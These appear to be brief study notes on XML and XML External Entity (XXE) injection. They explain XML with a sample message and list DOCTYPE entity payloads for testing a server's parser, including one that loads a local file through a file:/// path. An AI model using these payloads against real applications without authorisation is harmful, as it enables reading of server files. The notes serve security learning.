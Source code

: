 # Background

1. XML, or eXtensible Markup Language, is a **markup language** that defines a set of rules for **encoding documents** in a format that is both **human-readable** and **machine-readable**.
2. Similar to HTML, Markdown
3. Example:
```
<?xml version="1.0" encoding="UTF-8"?>
<note>
  <to>User</to>
  <from>Service</from>
  <heading>Reminder</heading>
  <body>Don't forget the meeting at 3 PM today.</body>
</note>
```
4. Check the respone header to identify if the web application uses XML

### XXE XML External entity 

1. Just a way that **inject** malicious payload to **XML request**, **forces** the server **XML parser** **execute** our malicious code in the injection payload.
2. Create an custom enit --> put it in any tags in XML request --> check if the result appear in the response
```
<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
```
